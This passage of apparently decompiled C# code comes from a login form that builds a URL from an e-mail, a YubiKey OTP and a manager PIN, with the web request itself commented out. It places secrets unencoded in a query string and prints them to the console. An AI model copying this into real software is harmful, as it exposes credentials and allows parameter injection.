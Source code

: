 ```cs

          interpolatedStringHandler.AppendLiteral("?u=");
          interpolatedStringHandler.AppendFormatted(emailTextBox.Text);

          #endregion

          #region YubiKey OTP

          interpolatedStringHandler.AppendLiteral("&y=");
          interpolatedStringHandler.AppendFormatted(otpTextBox.Text);

          #endregion

          #region Manager Security PIN

          interpolatedStringHandler.AppendLiteral("&m=");
          interpolatedStringHandler.AppendFormatted(text);

          #endregion

          Console.WriteLine(interpolatedStringHandler.ToStringAndClear());
          // int num = (int) MessageBox.Show(new StreamReader(WebRequest.Create(interpolatedStringHandler.ToStringAndClear()).GetResponse().GetResponseStream()).ReadToEnd());
        }
        else
        {
          str.Normalize();
          int num = (int) MessageBox.Show("Invalid manager code. WARNING: 3 tries per device.");
        }
      }
      catch (Exception ex)
      {
        int num = (int) MessageBox.Show(ex.Message);
      }
    }

    protected override void Dispose(bool disposing)
    {
      if (disposing && components != null)
        components.Dispose();
      base.Dispose(disposing);
    }

    private void InitializeComponent()
    {
      emailLabel = new Label();
      emailTextBox = new TextBox();
      otpTextBox = new TextBox();
      otpLabel = new Label();
      pinTextBox = new TextBox();
      pinLabel = new Label();
      loginButton = new Button();

      SuspendLayout();

      #region Email

      emailLabel.AutoSize = true;
      emailLabel.Location = new Point(114, 9);
      emailLabel.Name = "emailLabel";
      emailLabel.Size = new Size(41, 15);
      emailLabel.TabIndex = 0;
      emailLabel.Text = "E-mail";
```